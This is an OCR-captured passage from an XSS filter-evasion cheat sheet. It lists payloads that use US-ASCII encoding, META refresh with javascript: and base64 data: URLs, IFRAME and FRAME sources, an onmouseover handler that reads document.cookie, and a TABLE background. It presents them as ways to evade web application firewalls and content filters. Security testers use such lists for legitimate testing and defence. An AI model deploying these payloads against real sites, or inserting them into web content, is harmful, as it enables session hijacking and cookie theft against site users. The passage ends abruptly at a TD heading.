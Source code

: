 ````
US-ASCII encoding (found by Kurt Huwig).This uses malformed ASCII encoding with 7 bits instead of 8. This XSS may bypass many content filters but only works if the host transmits in US-ASCII encoding, or if you set the encoding yourself. This is more useful against web application firewall cross site scripting evasion than it is server side filter evasion. Apache Tomcat is the only known server that transmits in US-ASCII encoding.

`¼script¾alert(¢XSS¢)¼/script¾`

META
----

The odd thing about meta refresh is that it doesn’t send a referrer in the header - so it can be used for certain types of attacks where you need to get rid of referring URLs:

`<META HTTP-EQUIV="refresh" CONTENT="0;url=javascript:alert('XSS');">`

### META using Data

Directive URL scheme. This is nice because it also doesn’t have anything visibly that has the word SCRIPT or the JavaScript directive in it, because it utilizes base64 encoding. Please see RFC 2397 for more details or go here or here to encode your own. You can also use the XSS [calculator](http://ha.ckers.org/xsscalc.html) below if you just want to encode raw HTML or JavaScript as it has a Base64 encoding method:

`<META HTTP-EQUIV="refresh" CONTENT="0;url=data:text/html base64,PHNjcmlwdD5hbGVydCgnWFNTJyk8L3NjcmlwdD4K">`

### META with Additional URL Parameter

If the target website attempts to see if the URL contains `<http://>;` at the beginning you can evade it with the following technique (Submitted by Moritz Naumann):

`<META HTTP-EQUIV="refresh" CONTENT="0; URL=http://;URL=javascript:alert('XSS');">`

IFRAME
------

If iframes are allowed there are a lot of other XSS problems as well:

`<IFRAME SRC="javascript:alert('XSS');"></IFRAME>`

IFRAME Event Based
------------------

IFrames and most other elements can use event based mayhem like the following… (Submitted by: David Cross)

`<IFRAME SRC=# onmouseover="alert(document.cookie)"></IFRAME>`

FRAME
-----

Frames have the same sorts of XSS problems as iframes

`<FRAMESET><FRAME SRC="javascript:alert('XSS');"></FRAMESET>`

TABLE
-----

`<TABLE BACKGROUND="javascript:alert('XSS')">`

### TD

````